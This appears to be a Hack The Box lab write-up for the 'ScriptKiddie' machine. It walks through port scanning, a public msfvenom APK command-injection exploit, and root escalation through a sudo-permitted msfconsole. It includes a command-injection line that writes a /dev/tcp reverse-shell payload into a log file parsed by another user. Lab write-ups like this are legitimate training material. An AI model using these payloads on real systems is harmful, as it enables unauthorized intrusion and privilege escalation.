

# [ScriptKiddie](https://app.hackthebox.com/machines/ScriptKiddie)

```bash
nmap -p- --min-rate 10000  10.10.10.226 -Pn
```


After knowing that, (22,5000) ports are open, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,5000 10.10.10.226 -Pn
```


Once, on website, we see that there is interactive shell of 'msfconsole' to search exploits via `searchsploit` command.


Let's try to find exploit that abuse this.
I find such [thing](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md)


It is exploit which we can access and generate .apk file 'exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection'

But, it doesn't work. For this, we can use this [exploit maker](https://github.com/nikhil1232/CVE-2020-7384)


Now, we submit our 'exploit.apk' into webserver to get reverse shell.


Hola!  we got reverse shell.


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```


user.txt


I find vulnerable 'app.py' file on '/home/kid/html' directory that can be do CMD injection.



If I add CMD injection into 'srcip' variable, I can do.

And this '**hackers**' file on '**logs**' directory then parsed as **`pwn`** user.

Let's add reverse shell into 'hackers' file which is located '/home/kid/logs/hackers' directory.

```bash
echo "x x x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.4/1338 0>&1' # ."  > /home/kid/logs/hackers
```


We got reverse shell as '**pwn**' user.


Let's check privileges of '**pwn**' user.


Let's abuse this by following below commands.

```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
irb
system("bash")
```

root.txt

